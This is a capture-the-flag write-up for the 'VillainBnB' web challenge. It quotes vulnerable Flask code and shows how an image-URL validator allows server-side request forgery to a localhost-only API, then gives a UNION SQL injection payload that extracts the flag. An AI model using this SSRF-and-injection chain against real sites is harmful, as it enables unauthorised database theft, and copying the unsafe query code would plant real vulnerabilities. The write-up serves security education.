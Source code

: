 # Web: VillainBnB (379)

This is a website where Villains can get short-term rentals for their nerfarious deeds. There's a flag here somewhere though, can you get it from the database?

[https://uscybercombine-s4-villainbnb.chals.io/](https://uscybercombine-s4-villainbnb.chals.io/)

**Files:** VillainBnB.zip (Too big)

## Writeup

For this web challenge, we are given a zip file of the code. First, we need to extract it, and then everything we need is in app.py.

Here, we can see first that there is a wrapper for URLs that can only be accessed locally.

```py
def localhost_only(func):
    @wraps(func)
    def wrapper(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return jsonify({'error': 'Access denied'}), 403
        return func(*args, **kwargs)
    return wrapper
```

Also, the flag is added to a database just for the flag:

```py
    db.session.add(Flag(flag=FLAG))
```


We also see that SQLAlchemy is used, and the `/api/users` path has the following code:

```py
@api_bp.route('/users', methods=['GET'])
@localhost_only
def get_users():
    username = request.args.get('username')
    if username:
        query = f"SELECT * FROM user WHERE username ='{username}'"
        users = db.session.execute(text(query)).fetchall()
        users_data = [{'id': u.id, 'username': u.username} for u in users]
        return jsonify(users_data)
    else:
        users = User.query.all()
        users_data = [{'id': u.id, 'username': u.username} for u in users]
        return jsonify(users_data)
```

`db.session.execute` is certainly vulnerable to SQL injection, but this is a localhost-only path! 

So, we will need a way to bypass that.

In the `/create` path, which we can access when logged in, we see this:

```py
@app.route('/create', methods=['GET', 'POST'])
@login_required
def create_listing():
    if request.method == 'POST':
        name = request.form['name']
        description = request.form['description']
        image_url = request.form['image_url']

        valid_img = validate_image_url(image_url)

        if valid_img != True:
            flash(f'Invalid image URL. Please provide a valid image URL.\n\nResponse was:\n\n{valid_img}', 'danger')
            return redirect(url_for('create_listing'))

        new_listing = Listing(name=name, description=description, image_url=image_url, author=current_user)
        db.session.add(new_listing)
        db.session.commit()
        flash('Listing created successfully!', 'success')
        return redirect(url_for('index'))

    return render_template('create_listing.html')
```

This seems interesting... We can input a URL and it will return the response if not a valid image...

Now how does it validate the URL?

We also have this function:

```py
def validate_image_url(url):
    try:
        response = requests.get(url, timeout=5)
        response.raise_for_status()
        content_type = response.headers.get('Content-Type')
        if content_type and 'image' in content_type:
            return True
        else:
            return response.text
    except requests.exceptions.RequestException:
        return False
```

Since it gets the URL, what if we chain attacks? What if we request the localhost URL for the users API?


First, we need to register and log in...

If we create a listing with the URL of `http://127.0.0.1:5000/api/users?username=astitz-writeup`, we see this worked!

![Image 1](Screenshots/1.png)
![Image 2](Screenshots/2.png)

And since we know that the user table has 3 columns from our app.py file, which are id, username, and password, we can start to craft a payload to get the flag.

However, an interesting thing with this is that it uses named columns, so rather than just doing something like `' union select 1, flag, 1 from flag union select * where username = '`, we need to name the columns using "as".


And using the payload `http://127.0.0.1:5000/api/users?username=astitz-writeup' union select id, flag as username, flag as password from flag union select * from user where username = '`, we can get the flag!

![Image 3](Screenshots/3.png)

And our flag is `SIVUSCG{whoopsies_SSRF_here!}`! And we just chained a SSRF (Server-Side Request Forgery) with SQL injection!

